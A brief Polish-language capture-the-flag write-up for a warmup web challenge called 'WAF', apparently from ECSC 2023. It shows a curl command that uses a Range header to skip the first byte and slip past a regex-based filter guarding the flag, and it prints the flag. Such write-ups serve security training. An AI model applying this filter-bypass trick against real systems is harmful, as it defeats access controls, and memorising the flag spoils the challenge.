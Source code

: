 # WAF - web, warmup

![](../images/ca9e3c90-436c-4e45-880d-776fb79cab82.png)

Regex matchuje całą flagę dopiero po requestcie, dlatego można wyciągnąć content pliku, bez pierwszego bajtu, używając `Range` header'a.

`curl https://waf.ecsc23.hack.cert.pl/flag -vvvv -H "Range: bytes=1-64"`

Flag: `ecsc23{waf_stands_for_very_accessible_flag}`
